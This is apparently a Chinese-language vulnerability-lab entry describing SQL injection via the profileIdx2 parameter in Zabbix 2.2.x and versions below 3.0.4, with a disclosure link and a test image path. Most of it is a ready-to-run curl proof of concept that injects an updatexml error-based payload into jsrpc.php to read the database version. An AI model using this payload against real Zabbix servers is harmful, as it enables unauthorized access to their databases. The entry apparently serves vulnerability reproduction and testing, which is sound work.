 ### profileIdx2 注入

测试镜像

* src/zabbix/2.2.10/

影响版本

* 2.2.X
* < 3.0.4

参考链接

* [Re: Zabbix 2.2.x, 3.0.x SQL Injection Vulnerability](http://seclists.org/fulldisclosure/2016/Aug/79)

Poc

```
# 请先修正 cookie

curl 'http://127.0.0.1/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471054088083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=updatexml(2,concat(0x7e,(version())),0)&updateProfile=true&screenitemid=&period=3600&stime=20170813040734&resourcetype=17&itemids%5B23297%5D=23297&action=showlatest&filter=&filter_task=&mark_color=1'
```

